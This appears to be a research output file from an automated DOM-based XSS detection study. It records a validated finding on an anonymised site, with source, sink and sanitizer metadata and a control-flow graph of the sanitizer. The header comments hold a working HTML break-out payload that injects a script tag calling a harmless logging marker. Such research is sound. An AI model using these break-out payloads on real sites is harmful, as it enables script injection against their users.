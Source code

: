 // Finding: caa7d9a8-c633-4725-84fb-acda13bc7f9b
// Finding.url: https://www.example74.com/fitness/calculators/nutrition?%3Fclckmp%3Dactivecom_global_headernav_fitnesshealth_nutrition-calculator"></iframe></style></script></object></embed></textarea><script>taintfoxLog('11b61b34d78447eea19ca155275fc779')</script><!--/*
// Finding.parentloc: https://www.example74.com/fitness/calculators/nutrition?%3Fclckmp%3Dactivecom_global_headernav_fitnesshealth_nutrition-calculator"></iframe></style></script></object></embed></textarea><script>taintfoxLog('11b61b34d78447eea19ca155275fc779')</script><!--/*
// Finding.domain: www.example74.com
// Finding.base_domain: example74.com
// Finding.source: location.href
// Finding.sink: document.write
// Sanitizer.score: 4
// Sanitizer.name: processUrlForQSValue
// Sanitizer.location: https://media.example75.com/creatives/tag/getjs.static.js - processUrlForQSValue:1:9399
// Finding.begin: 231
// Finding.end: 239
// Finding.original_uuid: fdfdb9e4-cb25-417c-b8d1-b497b92e49b1
// Finding.TwentyFiveMillionFlowsId: -1294915047
// Finding.script: https://media.example75.com/creatives/tag/getjs.static.js
// Finding.line: 1
// Exploit.uuid: 11b61b34-d784-47ee-a19c-a155275fc779
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: src
// Exploit.quote_type: "
// Exploit.tag: script
// Exploit.break_out: %3Fclckmp%3Dactivecom_global_headernav_fitnesshealth_nutrition-calculator"></iframe></style></script></object></embed></textarea><script>
// Exploit.break_in: </script><!--/*
// Exploit.payload: %3Fclckmp%3Dactivecom_global_headernav_fitnesshealth_nutrition-calculator"></iframe></style></script></object></embed></textarea><script>taintfoxLog(1)</script><!--/*
// Exploit.begin_taint_url: 43
// Exploit.end_taint_url: 121
// Exploit.replace_begin_url: 53
// Exploit.replace_end_url: 121
// Exploit.replace_begin_param: 295
// Exploit.replace_end_param: 368
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: true
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: 1328176851
// DepGraph.sanitizer_hash: -2070255218
// Removed LR concats 
// Removed LR concats 
// Removed LR concats 
// Removed LR concats 
// Removed LR concats 
// Removed LR concats 
// Removed LR concats 
// Removed LR concats 
// Removed LR concats 
// Removed LR concats 
// Removed LR concats 
// Removed LR concats 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="escape"];
n2 [shape=box, label="Var: x"];
n3 [shape=ellipse, label="preg_replace"];
n4 [shape=box, label="RegExp: /\+/"];
n5 [shape=box, label="Lit: %2B"];
n6 [shape=box, label="Var: x"];
n7 [shape=ellipse, label="."];
n8 [shape=box, label="Lit: %2F"];
n9 [shape=ellipse, label="."];
n10 [shape=box, label="Lit: %2F"];
n11 [shape=ellipse, label="preg_replace"];
n12 [shape=box, label="RegExp: /\//"];
n13 [shape=box, label="Lit: %2F"];
n14 [shape=box, label="Var: x"];
n15 [shape=box, label="Var: x"];
n16 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n6 -> n1;
n3 -> n4;
n3 -> n5;
n3 -> n6;
n7 -> n3;
n7 -> n8;
n9 -> n7;
n9 -> n10;
n14 -> n9;
n11 -> n12;
n11 -> n13;
n11 -> n14;
n15 -> n11;
n16 -> n15;
}
